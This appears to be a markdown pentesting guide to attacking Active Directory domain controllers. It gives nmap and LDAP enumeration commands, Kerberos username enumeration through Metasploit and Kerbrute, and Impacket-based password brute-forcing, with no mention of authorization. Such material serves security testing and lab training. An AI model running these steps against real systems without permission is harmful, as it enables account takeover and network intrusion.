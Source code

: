 ### Target Enumeration
**Enumerate ports and verify whether a DNS or a Kerberos services are running**
```bash
nmap -Pn -p22,53,80,88,445,5985 <IP>
```

**With the information obtained, further enumerate and identify the `domain name` of the machine using the `ldap` script**
```bash
nmap --script ldap* <IP>
```

**Enumerate `ldap` to identify the `root domain name` of the DC**
```nmap
nmap --script ldap* <IP> | grep -i root
```

### Username Enumeration
You can use the information gathered from the enumeration of the DC to ***discover the user domain accounts*** that authenticate to it. This step is essential as it's possible to ***bruteforce the credentials*** of these user domain accounts with a list of domain usernames, using **Metasploit** or **Kerbrute**.

Both of these methods require existing wordlists of usernames that can be obtained using `OSINT` or `social engineering` techniques.

#### Method one: Metasploit
```bash
use auxiliary/gather/kerberos_enumuser
set domain <ldapServiceName> --> <obtained from target enumeration ldapServiceName: random.local(first part) or look for DC=domain, DC=local that should give you the domain. e.g. domain.local>
set rhosts <dc_ip>
set rport 88
set user_file /usr/share/wordlists/usernames.txt
run
```

#### Method two: Kerbrute
Kerbrute is a tool for user enumeration, brute-forcing, and password spraying against Kerberos authentication. It leverages the way in which Kerberos responds to queries from non-existing users.

When Kerberos receives a ***Ticket Granting Tickets (TGT)*** request with no preauthentication for a non-domain joined user or a non-existent user, it will respond with `KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN`. For a valid user, Kerberos will respond with either a TGT in a `AS-REP` or a `KRB5KDC_ERR_PREAUTH_REQUIRED` response.

```bash
./kerbrute userenum /usr/share/wordlists/usernames.txt -d <domain_name> --dc <IP_ADDRESS_DOMAIN_CONTROL
```

### Kerberos Bruteforcing
Bruteforce the usernames using the Impacket version of Kerbrute. 

```bash
cd Tools/kerbrute-impacket
python kerbrute.py -dc-ip <IP_ADDRESS_DC> -domain <domain_name> -users <username.txt> -passwords <path/to/password/list> -outputfile <outputfile_name>
```